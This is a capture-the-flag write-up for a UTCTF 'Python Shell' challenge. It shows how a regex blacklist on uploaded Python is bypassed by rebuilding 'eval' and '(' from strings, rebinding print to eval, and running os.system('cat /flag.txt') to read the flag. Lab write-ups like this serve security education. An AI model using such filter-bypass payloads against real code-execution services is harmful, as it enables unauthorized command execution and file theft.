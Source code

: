# Python Shell 

## Task

Upload a Python file that can be run by invoking the python command, and we will run it for you. To do so, send the bytes over the stream, and close the write half. stdout will be sent back. For security reasons, we may refuse to run your file if we detect dangerous strings. There is a byte limit and a timeout.

nc misc.utctf.live 4353


## Solution

First you hat to create a connection and halfclose it. This is best done with `socat -t1 - TCP:misc.utctf.live:4353`.

So now to the payload. A simple `print('xxx')` returns xxx so far so good.

But if we just try to: `print(open('/flag.txt').read())` we get:

```
Files must be uploaded within 2 seconds. Scripts must run within 2 seconds. Only the first 4096 bytes will be considered.                                                                          Blacklist: (eval)|(import)|(open)|(with)|(as)|(from)|(lambda)|(\s*print\s*=\s*)|(?P<paren>\()                                                                                                      Whitelist: (\s*print\s*(?P<paren>\())                                                                                                                                                              ```

So we know what is prohibited: `eval|import|open|with|as|from|lambda|print = |` and what is that?
`(` open parentheses... ok thats "new"...


So to get around the forbidden `open` we could do something like:  `eval('op' + 'en'('flag.txt'))` but eval is forbidden as well.

`__builtins__.__dict__['ev' + 'al']`

Will solve that, so now to the `(` we can just replace that with int.__doc__[3].

`__builtins__.__dict__['ev' + 'al']`('print' + int.__doc__[3] + 'op' + 'en' + int.__doc__[3] + '\'/flag.txt\')' + '.read' + int.__doc__[3] + '))')`

So maybe something like that? But wait there is still a `(` at char(40) damn!

How to get rid of that? I didn't find a way to get rid of it directly, but there was mention of a "whitelist" before. `Whitelist: (\s*print\s*(?P<paren>\())`
For `print(` the `(` is ok, good to know!

Let's try

`p = 'print' + int.__doc__[3] + 'op' + 'en' + int.__doc__[3] + '\'/flag.txt\')' + '.read' + int.__doc__[3] + '))';  __builtins__.__dict__['print'] = __builtins__.__dict__['ev' + 'al']; print(p + "")`


No answer... Debugging it locally gives me the flag, but via stderr since it throws an exception.

So I changed it the actual payload to: `os.system('cat /flag.txt')`

Resulting in:

```
echo "p = '__builtins__.__i' + 'mport__' + int.__doc__[3] + '"os").system' + int.__doc__[3] + '"cat /flag.txt")'; __builtins__.__dict__['print'] = __builtins__.__dict__['ev' + 'al']; print(p)" > payload`
cat payload | socat -t1 - TCP:misc.utctf.live:4353
Files must be uploaded within 2 seconds. Scripts must run within 2 seconds. Only the first 4096 bytes will be considered.                                                                          utflag{unclean_input}
```



